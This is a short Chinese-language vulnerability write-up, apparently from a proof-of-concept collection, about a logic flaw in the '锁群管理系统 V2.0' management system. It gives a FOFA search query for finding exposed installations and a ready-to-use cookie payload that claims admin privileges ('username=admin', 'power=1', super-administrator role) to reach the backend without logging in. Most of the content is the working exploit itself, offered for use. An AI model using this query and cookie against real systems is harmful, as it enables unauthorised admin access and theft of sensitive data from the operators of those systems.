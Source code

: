 # 锁群管理系统存在逻辑缺陷漏洞
锁群管理系统存在逻辑缺陷漏洞，攻击者可利用该漏洞获取敏感信息。 

## fofa

```javascript
title=="锁群管理系统 V2.0"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733070567966-134a04c6-0e40-46c3-8d09-f9367f8ddc62.png)

## poc
cookie中添加如下内容，即可进入后台

```javascript
Cookie: ASP.NET_SessionId=evadd1jksrepp4gtbgockcbi; username=admin; power=1; powerName=%e8%b6%85%e7%ba%a7%e7%ae%a1%e7%90%86%e5%91%98; code=admin
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1733070671832-06b3fd9e-545c-48f6-88e7-c8543c1a36b5.png)

